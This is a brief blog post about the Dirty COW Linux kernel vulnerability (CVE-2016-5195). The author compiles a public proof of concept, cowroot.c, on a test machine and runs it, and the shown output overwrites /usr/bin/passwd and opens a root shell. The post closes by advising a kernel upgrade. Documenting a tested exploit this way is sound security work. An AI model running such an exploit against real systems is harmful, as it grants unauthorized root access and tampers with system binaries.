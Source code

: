 Title:CVE 2016-5195 dirtycow
Date: 12-11-2016 19:20
category:security
tags:cve, security, exploit
meta:cve, security, exploit

<img class="align-left" src="/media/2016.12/cow.png" alt="Ðirtycow logo" width="162">

Dirty COW (CVE-2016-5195) is a privilege escalation vulnerability in the Linux
Kernel.
"[A race condition](https://en.wikipedia.org/wiki/Race_condition) was found in
the way the Linux kernel's memory subsystem
handled the copy-on-write (COW) breakage of private read-only memory mappings.
An unprivileged local user could use this flaw to gain write access to otherwise
read-only memory mappings and thus increase their privileges on the system."
([Source: Red Hat](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#))

<!-- PELICAN_END_SUMMARY -->

So globally with the write code doing the right thing a unprivileged user can
get root permission on most GNU/Linux systems.
The satiric web site [dirtycow.ninja/](https://dirtycow.ninja/) was in the first
time create to make fun of people giving name to vulnerability even a [youtube
video](https://www.youtube.com/watch?v=kEsshExn7aE) was made. Nevertheless the
wiki of the website (on github) link to a [few
PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs).

I test one of this PoCs on my test computer. The exploits were not fully stable
at the time an my computer was sometime friezing just after getting root
privileges.

I used a modified version of the cowroot.c PoCs host on [a
gist](https://gist.github.com/joshuaskorich/86c90e12436c873e4a06bd64b461cc43).
First of all we compile the exploit code:

    :::text
    [maggick@computer_name dirtycow]$ gcc cowroot.c -o cowroot -pthread
    cowroot.c: In function ‘procselfmemThread’:
    cowroot.c:107:17: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [-Wint-conversion]
             lseek(f,map,SEEK_SET);
                     ^~~
    In file included from cowroot.c:27:0:
    /usr/include/unistd.h:337:16: note: expected ‘__off_t {aka long int}’ but argument is of type ‘void *’
     extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                    ^~~~~
    cowroot.c: In function ‘main’:
    cowroot.c:144:5: warning: implicit declaration of function ‘asprintf’ [-Wimplicit-function-declaration]
         asprintf(&backup, "cp %s /tmp/bak", suid_binary);
         ^~~~~~~~
    cowroot.c:148:5: warning: implicit declaration of function ‘fstat’ [-Wimplicit-function-declaration]
         fstat(f,&st);
         ^~~~~

The warning are not really important after the compilation we just launch the
exploit:

    [maggick@computer_name dirtycow]$ ./cowroot
    DirtyCow root privilege escalation
    Backing up /usr/bin/passwd to /tmp/bak
    Size of binary: 47224
    Racing, this may take a while..
    /usr/bin/passwd overwritten
    Popping root shell.
    Don't forget to restore /tmp/bak
    thread stopped
    thread stopped
    [root@computer_name dirtycow]# id
    uid=0(root) gid=1000(maggick) groups=1000(maggick)

And we got root privileges as planned. The exploit replace the
`/usr/bin/passwd` executable so we need to restore it with the one in
`/tmp/bak`.

In order to correct this vulnerability we just need to upgrade our kernel.

